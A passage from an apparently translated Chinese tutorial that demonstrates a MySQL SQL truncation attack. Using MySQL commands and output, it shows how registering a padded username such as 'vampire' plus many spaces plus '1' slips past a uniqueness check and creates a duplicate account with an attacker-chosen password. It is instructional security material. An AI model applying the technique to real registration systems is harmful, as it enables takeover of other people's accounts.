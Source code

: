 接着创建一个数据表``users``，其包含``username``和``password``列，并且字段的最大长度限制为25个字符。然后，我将向``username``字段插入``vampire``，向``password``字段插入``my_password``。

```mysql
mysql> CREATE TABLE users (
    ->   username varchar(25),
    ->   password varchar(25)
    -> );
Query OK, 0 rows affected (0.09 sec)
mysql> INSERT INTO users
    -> VALUES('vampire', 'my_password');
Query OK, 1 row affected (0.11 sec)
mysql> SELECT * FROM users;
+----------+-------------+
| username | password    |
+----------+-------------+
| vampire  | my_password |
+----------+-------------+
1 row in set (0.00 sec)

```

为了展示尾部空白字符的修剪情况，我们可以键入下列命令：

```mysql
mysql> SELECT * FROM users
    -> WHERE username='vampire       ';
+----------+-------------+
| username | password    |
+----------+-------------+
| vampire  | my_password |
+----------+-------------+
1 row in set (0.00 sec)

```

现在我们假设一个存在漏洞的网站使用了前面提到的PHP代码来处理用户的注册及登录过程。为了侵入任意用户的帐户（在本例中为``“vampire”``），只需要使用用户名``“vampire[许多空白符]1”``和一个随机密码进行注册即可。对于选择的用户名，前25个字符应该只包含``vampire``和空白字符，这样做将有助于绕过检查特定用户名是否已存在的查询。

```
mysql> SELECT * FROM users
    -> WHERE username='vampire                   1';
Empty set (0.00 sec)

```

需要注意的是，在执行``SELECT``查询语句时，SQL是不会将字符串缩短为25个字符的。因此，这里将使用完整的字符串进行搜索，所以不会找到匹配的结果。接下来，当执行``INSERT``查询语句时，它只会插入前25个字符。

```mysql
mysql>   INSERT INTO users(username, password)
    -> VALUES ('vampire                   1', 'random_pass');
Query OK, 1 row affected, 1 warning (0.05 sec)
mysql> SELECT * FROM users
    -> WHERE username='vampire';
+---------------------------+-------------+
| username                  | password    |
+---------------------------+-------------+
| vampire                   | my_password |
| vampire                   | random_pass |
+---------------------------+-------------+
2 rows in set (0.00 sec)

```
